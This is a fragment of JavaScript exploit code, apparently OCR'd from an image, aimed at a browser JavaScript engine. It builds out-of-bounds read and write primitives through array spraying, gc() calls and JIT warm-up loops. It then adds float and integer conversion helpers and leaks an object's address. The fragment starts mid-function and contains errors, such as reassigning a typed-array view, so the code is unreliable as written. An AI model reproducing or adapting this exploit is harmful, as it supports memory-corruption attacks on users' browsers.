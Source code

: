 ``` html
  return [x[20],x[24]];
}

function oobWrite(addr) {
  x[24] = addr;
}

var arr0 = new Array(10); arr0.fill(1);arr0.a = 1;
var arr1 = new Array(10); arr1.fill(2);arr1.a = 1;
var arr2 = new Array(10); arr2.fill(3); arr2.a = 1;
var x = arr0;

gc();gc();
  
var arr = new Array(30); arr.fill(4); arr.a = 1;
var b = new Array(1); b.fill(1);
var writeArr = [1.1];

for (let i = 0; i < 19321; i++) {
  if (i == 19319) arr2[0] = 1.1;
  foo(arr1);
}

x[0] = 1.1;

for (let i = 0; i < 20000; i++) {
  oobRead();
}

for (let i = 0; i < 20000; i++) oobWrite(1.1);
foo(arr);

var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Int32Array(view);
var bigIntView = new BigInt64Array(view);
b[0] = instance;
var addrs = oobRead();

function ftoi32(f) {
  dblArr[0] = f;
  return [intView[0], intView[1]];
}

function i32tof(i1, i2) {
  intView[0] = i1;
  intView[1] = i2;
  return dblArr[0];
}

function itof(i) {
  bigIntView = BigInt(i);
  return dblArr[0];
}

function ftoi(f) {
  dblArr[0] = f;
  return bigIntView[0];
}


dblArr[0] = addrs[0];
dblArr[1] = addrs[1];
```